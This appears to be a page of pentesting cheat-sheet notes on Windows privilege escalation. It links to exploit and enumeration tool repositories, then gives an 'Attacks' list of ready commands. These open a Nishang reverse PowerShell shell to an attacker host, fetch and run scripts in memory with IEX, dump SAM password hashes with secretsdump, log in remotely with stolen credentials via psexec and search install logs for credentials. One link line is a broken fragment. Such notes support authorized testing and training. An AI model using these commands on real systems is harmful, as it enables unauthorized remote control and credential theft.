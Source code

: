 - [Windows privilege escalation (enumeration) script - absolomb](https://github.com/absolomb/WindowsEnum.git)
- [Windows privilege escalation (enumeration) script - bitsadmin](https://github.com/bitsadmin/wesng.git)
- [Windows privilege escalation (enumeration) script - abatchy17](https://github.com/abatchy17/WindowsExploits.git)
- [PowerSploit - PowerShellMafia](https://github.com/PowerShellMafia/PowerSploit)
privilege-escalation-awesome-scripts-suite)
- [Windows-Privilege-Escalation - frizb](https://github.com/frizb/Windows-Privilege-Escalation)
- [Windows-Privilege-Escalation - swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

#### Attacks
- Test if powershell is working without breaking shell
- `powershell whoami`
- Pivot DoS to powershell using Nishang reverse powershell script.
- Listen w/ nc on a new port.
- Make a copy of `Invoke-PowerShellTcp.ps1` and add `Invoke-PowerShellTcp -Reverse -IPAddress ATTACKERIP -Port NEWLISTENERPORT` at the bottom of the copy file to run the command automatically
- Start an HTTP server in the root directoy of the modified nishang script copy
- Run this from DoS: `powershell "IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/nishang.ps1")"`
- Go to your listener terminal, you should now have a reverse PS shell
- Download string that loads a ps script into memory (if you want it to auto run make sure there is a call to the function to do so at the bottom of the script, or else it'll just load the functions into memory)
- `IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/jaws.ps1")`
- Download file
- PS `IEX(New-Object Net.Webclient).downloadFile("<urltofile>","savelocation")`
- Run cmd as other user
- PS > `$SecPass = ConvertTo-SecureString "password" -AsPlainText -Force; $cred = New-Object system.management.Automation.PSCredential('username', $SecPass); Start-Process -FilePath "powershell" -argumentlist "CMD" -Credential $cred`
- DOS > `\Windows\System32\runas.exe`
- Run exe
- PS from working directory `Start-Process -FilePath "sort.exe"`
- PS from other directory `Start-Process -FilePath "myfile.txt" -WorkingDirectory "C:\PS-Test"`
- PS as admin `Start-Process -FilePath "powershell" -Verb RunAs -Credential $cred` (See above on how to create credential)
- PS with arguments `Start-Process -FilePath "$env:comspec" -ArgumentList "/c dir ``"%systemdrive%\program files\``""`
- Decrypy SAM password hashes
- `impacket-secretsdump -sam SAMFILE -system SYSTEMFILE local`
- Determine admin accounts
- DOS: `net localgroup administrators`
- SAM and SYSTEM file location
- `Windows/System32/config`
- Log into remote windows host with stolen creds (SMB required)
- `psexec.py user@ip`
- Find shortcut location (`*.lnk`)
- PS `$Wscript = New-Object -ComObject Wscript.shell; $shortcut = Get-ChildItem *.lnk'; $Wscript.CreateShortcut($shortcut)`
- Remember to check for dates when patches were applied, it'll key you into good potential kernel exploits
- Check panther directory, install logs get put in here and contain creds
- Read contents of file in PS shell
- `get-Content "filename"`
